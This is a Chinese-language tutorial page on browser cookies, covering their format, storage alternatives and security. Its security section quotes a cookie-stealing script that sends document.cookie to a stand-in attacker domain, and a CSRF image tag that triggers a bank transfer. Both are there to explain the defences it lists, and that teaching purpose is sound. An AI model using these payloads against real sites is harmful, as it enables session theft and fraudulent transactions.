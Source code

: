 ```yaml
---
date: 22:42 2023/3/22
title: cookieStore 的使用
tags:
- JS
categories:
  - Web
---
```

## 介绍
`Cookie` 是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。也是一个 HTTP 请求标头，其中含有先前由服务器通过 `Set-Cookie` 响应标头发送或通过 JavaScript 的 `document.cookie` 方法设置，然后存储到本地的 Cookie。

`Set-Cookie` 是一个 HTTP 响应标头，被用来由服务器端向浏览器发送 cookie，浏览器可在后续的请求中将其发送回服务器。服务器要发送多个 cookie，则应该在同一响应中发送多个 Set-Cookie 标头。

可以通过在浏览器的隐私设置里面设置为禁用 cookie，来阻止接收发送和本地设置。

Cookie 主要用于以下三个方面：
- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

## 形式
一系列的名称/值对，形式为 `name=value; name2=value2; name3=value3`。名称/值对之间用分号和空格（'; '）隔开。

## Cookie 存储
Cookie 曾用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段。由于服务器指定 Cookie 后，浏览器的每次请求都会携带 Cookie 数据，会带来额外的性能开销（尤其是在移动环境下）。

在浏览器中存储数据的新特性方法是 Web Storage API。`window.sessionStorage` 和`window.localStorage` 属性与持续时间中的会话和永久 cookie 相对应，但是存储限制比 cookie 大，并且永远不会发送到服务器。

可以使用 IndexedDB API 或基于它构建的库来存储更多结构化的数据。

## 安全
1. 如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
使用 HttpOnly 属性可防止通过 JavaScript 访问 cookie 值，从而在一定程度上缓解此类攻击。

2. 用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短。
```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。一些方法可以阻止此类事件的发生：
- 对用户输入进行过滤来阻止 XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；
